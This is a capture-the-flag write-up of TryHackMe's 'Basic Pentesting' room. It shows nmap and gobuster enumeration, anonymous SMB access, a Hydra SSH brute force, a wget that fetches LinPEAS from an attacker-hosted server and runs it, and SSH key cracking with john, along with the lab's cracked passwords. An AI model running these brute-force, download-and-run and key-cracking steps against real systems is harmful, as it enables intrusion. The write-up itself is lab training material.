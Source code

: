 # Basic Pentesting Writeup (TryHackMe)

## Challenge Overview

This challenge simulates a real-world penetration test scenario where the attacker must gain access to a machine through open services, enumerate for sensitive data, and escalate privileges to capture the final flag. It involves techniques like directory fuzzing, SMB enumeration, password brute-forcing, and leveraging exposed SSH keys for privilege escalation.

---

## Enumeration

Started the challenge by running an Nmap scan to enumerate open ports and identify services:

```bash
sudo nmap <target-ip> -sS -T4 -A -oN init_scan
```

![2025-05-06_14-00](https://github.com/user-attachments/assets/9e66d88d-4275-4d90-a383-ad2a8a8c3191)

Discovered a website running on port 80.

## Web Enumeration

Used `gobuster` to find hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-06_14-05](https://github.com/user-attachments/assets/03db77ae-d3b5-4de7-884d-22fe38dfa4e0)

Found the `/development` subdirectory. It contained two `.txt` files that mentioned the development of the website and referenced an SMB share.

![2025-05-06_14-05_1](https://github.com/user-attachments/assets/4a94e1bf-8b4f-49a5-aaf4-79fa1d949960)
![2025-05-06_14-06](https://github.com/user-attachments/assets/42d7e777-72b6-4c88-9318-8bb7b172898a)
![2025-05-06_14-07](https://github.com/user-attachments/assets/bde4d3ef-52b8-45eb-a89f-c80324b11d7c)

## SMB Enumeration

Accessed the SMB share using `smbclient` with anonymous login:

```bash
smbclient -L //<target-ip>
smbclient //<target-ip>/Anonymous 
```

Retrieved a `.txt` file mentioning two users: `jan` and `kay`.

![2025-05-06_14-37](https://github.com/user-attachments/assets/06cb2416-a754-4bd0-89a1-05e7115aced2)

## SSH Brute Force

Used Hydra to brute-force SSH credentials for `jan`:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt <target-ip> ssh
```

![2025-05-06_14-45](https://github.com/user-attachments/assets/f3c9f9f3-ccf8-4e0f-b9e1-5d5fbf368439)

Cracked password: `armando`

## Privilege Escalation (to kay)

After logging in as `jan`, manual enumeration began. Encountered several dead-ends:

* `sudo -l` – no permissions
* Checked SUID binaries – no immediate vector
* `wget` didn't work initially

Found that `/tmp` was writable. Hosted LinPEAS on attacker machine via Python server:

```bash
python3 -m http.server 8000
```

Then on target:

```bash
cd /tmp
wget http://<attacker-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 🗝SSH Key Exploit

LinPEAS revealed an exposed private key in `/home/kay/.ssh/id_rsa`. Copied it and cracked it:

![2025-05-06_15-57_1](https://github.com/user-attachments/assets/b43735a1-b605-45c0-aed9-acc913958d16)

Extracted hash with `ssh2john`:

```bash
ssh2john id_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![2025-05-06_15-57](https://github.com/user-attachments/assets/2f4ef426-9cb5-4277-ac58-e2ef0da54756)

Password: `beeswax`

Used the private key to SSH into kay's account:

```bash
ssh -i id_rsa kay@<target-ip>
```

Accessed `pass.bak`:

```bash
cat pass.bak
```

![2025-05-06_15-58](https://github.com/user-attachments/assets/dda629b3-c579-4f68-827d-854b0826680e)

✅ Final flag retrieved.

---

## 🧾 Conclusion

![2025-05-06_15-59](https://github.com/user-attachments/assets/dec757bf-bea6-431b-aebb-d989648cd122)

This room tested core skills in enumeration, brute-forcing, and privilege escalation:

* Gobuster revealed a hidden dev directory
* SMB share exposed usernames
* SSH brute-force using Hydra
* Privilege escalation via exposed SSH key

The challenge emphasized how poor access control, default credentials, and leftover dev artifacts can lead to full system compromise.
